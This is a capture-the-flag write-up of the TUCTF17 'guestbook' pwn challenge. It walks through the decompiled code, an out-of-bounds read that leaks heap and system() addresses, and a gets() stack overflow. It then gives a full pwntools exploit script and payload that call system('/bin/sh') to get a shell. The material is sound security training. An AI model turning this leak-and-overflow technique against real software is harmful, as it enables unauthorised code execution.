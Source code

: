 ```yaml
---
layout: post
title: TUCTF17 PWN 250
tags: [ctf, pwn, write-up, tuctf17]
---
```


### Challenge: [guestbook](../ctfs/tuctf17/pwn/guestbook/guestbook)
(**PS**: *libc was provided for this challenge*)

### Reversing
Let's start with basic analysis of given binary
```bash
$ file ./guestbook
guestbook: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=bc73592d4897267cd1097b0541dc571d051a7ca0, not stripped
$ checksec ./guestbook
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
So we have PIE and NX enabled, which in most scenarios require combination of information leak and ROP (Return Oriented Programming). I quickly fire up IDA for further analysis.
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [sp+0h] [bp-98h]@16
  int v5; // [sp+64h] [bp-34h]@11
  int v6; // [sp+68h] [bp-30h]@7
  char *dest[4]; // [sp+6Ch] [bp-2Ch]@2
  char v8; // [sp+7Fh] [bp-19h]@5
  int (**v9)(const char *); // [sp+80h] [bp-18h]@4
  char **v10; // [sp+84h] [bp-14h]@4
  char *v11; // [sp+88h] [bp-10h]@2
  char v12; // [sp+8Fh] [bp-9h]@4
  int i; // [sp+90h] [bp-8h]@1

  setvbuf(stdout, 0, 2, 0x14u);
  puts("Please setup your guest book:");
  for ( i = 0; i <= 3; ++i )
  {
    printf("Name for guest: #%d\n>>>", i);
    v11 = (char *)malloc(0xFu);
    __isoc99_scanf("%15s", v11);
    v11[14] = 0;
    dest[i] = v11;
  }
  v10 = dest;
  v9 = &system;
  v12 = 1;
  while ( v12 )
  {
    do
      v8 = getchar();
    while ( v8 != 10 && v8 != -1 );
    puts("---------------------------");
    puts("1: View name");
    puts("2: Change name");
    puts("3. Quit");
    printf(">>");
    v6 = 0;
    __isoc99_scanf("%d", &v6);
    switch ( v6 )
    {
      case 2:
        printf("Which entry do you want to change?\n>>>");
        v5 = -1;
        __isoc99_scanf("%d", &v5);
        if ( v5 >= 0 )
        {
          printf("Enter the name of the new guest.\n>>>");
          do
            v8 = getchar();
          while ( v8 != 10 && v8 != -1 );
          gets(&s);
          strcpy(dest[v5], &s);
        }
        else
        {
          puts("Enter a valid number");
        }
        break;
      case 3:
        v12 = 0;
        break;
      case 1:
        readName((int)dest);
        break;
      default:
        puts("Not a valid option. Try again");
        break;
    }
  }
  return 0;
}

int __cdecl readName(int a1)
{
  int result; // eax@2
  int v2; // [sp+0h] [bp-8h]@1

  printf("Which entry do you want to view?\n>>>");
  v2 = -1;
  __isoc99_scanf("%d", &v2);
  if ( v2 >= 0 )
    result = puts(*(const char **)(4 * v2 + a1));
  else
    result = puts("Enter a valid number");
  return result;
}
```
Above is the decompiled pseudo code generated by IDA hex-rays plugin. Here as the code suggests, binary takes input for four guests and assigns each a numerical entry (eg #1). After this binary gives out a menu with three options, we can either choose to view name in a guest entry or change name in a guest entry or simply select `quit` option which return the `main`. There is a interesting block of code that is spotted instantly, `Change name` section uses `gets` function to take input on the stack which can allow us to overwrite return address. But where to return to? Meaning we still have to bypass PIE by getting an info leak. To get that, there is a user-defined function `readName` in `View name` section. This function takes array of string `dest` which is a stack variable for `main` function, as argument and asks user for the entry of `dest` to be printed on console. Now here lies the second vulnerability. Entry integer value doesnt have a max value check inplace. So we can use this to leak stuff on the stack. Now lets see if there is anything interesing on stack.

### Exploitation

```bash
gdb-peda$ stack 500
...
0112| 0xffffd22c --> 0x56558008 --> 0x41 ('A')
0116| 0xffffd230 --> 0x56558428 --> 0x42 ('B')
0120| 0xffffd234 --> 0x56558440 --> 0x43 ('C')
0124| 0xffffd238 --> 0x56558458 --> 0x44 ('D')
0128| 0xffffd23c --> 0xa5559f1 
0132| 0xffffd240 --> 0xf7e2cfa0 (<system>:	sub    esp,0xc)
0136| 0xffffd244 --> 0xffffd22c --> 0x56558008 --> 0x41 ('A')
0140| 0xffffd248 --> 0x56558458 --> 0x44 ('D')
0144| 0xffffd24c --> 0x1000000 
0148| 0xffffd250 --> 0x4 
0152| 0xffffd254 --> 0x0 
0156| 0xffffd258 --> 0x0 
0160| 0xffffd25c --> 0xf7e09456 (<__libc_start_main+246>:	add    esp,0x10)
...
```  
Above is the stack view taken from `gdb-peda`. [0x56558008, 0x56558428, 0x56558440, 0x56558458] is what `dest` looks like. Buf if we request for 6 index in `dest`, 0xffffd22c address will be printed as a string which will inturn leak out heap address `0x56558008` and system address `0xf7e2cfa0`. After getting this leak we can craft our payload for stack based buffer overflow in `Change name` section.
Final buffer overflow payload will be (custom values are added in between *eip offset buffer* due to `strcpy` call just after the `gets` call)
`'/bin/sh\x00' + "A"*92 + p32(0) + p32(0) + p32(heap_addr)*4 + "B"*32 + p32(system_addr) + "JUNK" + p32(heap_addr) + "\n"`
Here `heap_addr`*4 has been added to overwrite `dest` variable's array elements. With this in the next `strcpy` call, `/bin/sh` gets written on the `heap_addr` providing us argument for `system` ROP chain.
Below is the final exploit script
```python
from pwn import *

def ch_name(index, name):
    r.recvuntil(">>")
    r.sendline("2")
    r.recvuntil(">>>")
    r.sendline(str(index))
    #r.interactive()
    r.recvuntil(">>>")
    r.sendline(name)

def vw_name(index):
    r.recvuntil(">>")
    r.sendline("1")
    r.recvuntil(">>>")
    r.sendline(str(index))

r = process("./guestbook")

# providing guest names
for i in range(4):
    r.recvuntil(">>>")
    r.sendline(chr(0x41 + i)*4)

# leak stack address
vw_name(6)
leak = r.recv(24)
heap_addr = u32(leak[0:4])
log.info("heap address: 0x{:x}".format(heap_addr))
system_addr = u32(leak[20:24])
log.info("system address: 0x{:x}".format(system_addr))
# overwriting return address
ch_name(0, '/bin/sh\x00' + "A"*92 + p32(0) + p32(0) + p32(heap_addr)*4 + "B"*32 + p32(system_addr) + "JUNK" + p32(heap_addr) + "\n")
#gdb.attach(r)
# triggering shell
r.sendline("3")
r.recvuntil(">>")
r.interactive()
```
Exploit script [link](../ctfs/tuctf17/pwn/guestbook/sploit.py)